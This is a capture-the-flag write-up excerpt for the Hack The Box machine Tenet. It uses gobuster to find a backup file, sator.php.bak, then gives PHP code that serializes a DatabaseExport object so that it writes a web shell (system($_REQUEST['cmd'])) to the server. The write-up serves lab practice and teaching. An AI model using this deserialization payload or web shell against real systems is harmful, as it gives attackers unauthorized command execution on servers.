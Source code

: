  # Foothold
 
 Sator.php can be found at http://10.10.10.223/stator.php 

![](/Writeups/Tenet/Pasted image 20210613030951.png)

We can check for its backup file using gobuster by creating a file named words with sator as content.

```bash
┌[Parrot]─[03:11-13/06]─[/home/aju/CTF/HTB/Tenet]
└╼aju$gobuster dir -u http://10.10.10.223 -w words -d -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.223
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                words
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/06/13 03:12:10 Starting gobuster in directory enumeration mode
===============================================================
/sator.php            (Status: 200) [Size: 63]
/sator.php.bak        (Status: 200) [Size: 514]
                                               
===============================================================
2021/06/13 03:12:20 Finished
===============================================================
```

We can download and examine sator.php.bak

![](/Writeups/Tenet/Pasted image 20210613031555.png)

we can create Serialized Object to get command execution on the machine 

```bash
<?php

class DatabaseExport
{
	public $user_file = 'edg.php';
    public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$test = new DatabaseExport;
echo (serialize($test));
```
